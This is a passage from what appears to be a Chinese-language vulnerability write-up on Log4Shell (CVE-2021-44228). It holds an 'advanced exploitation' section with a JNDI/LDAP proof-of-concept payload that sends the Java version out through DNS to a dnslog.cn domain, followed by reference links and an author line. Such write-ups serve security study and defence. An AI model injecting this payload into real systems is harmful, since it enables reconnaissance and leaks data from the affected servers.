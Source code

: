 ```java
}
```



## 0x07 进阶利用思路



DNS信息外带

!FILENAME POC

```
${jndi:ldap://${sys:java.version}.xxxx.dnslog.cn}
```



![图片](%E6%BC%8F%E6%B4%9E%E6%96%87%E5%BA%93%E6%A8%A1%E6%9D%BF.assets/FGT0Im-UcAIq7IA.png)



## 0x08 扩展链接

https://n0b1ta.github.io/CVE-2021-44228-Apache-Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83

https://security.tencent.com/index.php/blog/msg/131

https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/

https://xz.aliyun.com/t/10649

https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

http://blog.topsec.com.cn/java-jndi%E6%B3%A8%E5%85%A5%E7%9F%A5%E8%AF%86%E8%AF%A6%E8%A7%A3/

https://www.youtube.com/watch?v=Y8a5nB-vy78



## 0x9 联系方式

作者 : BitWiki支持团队
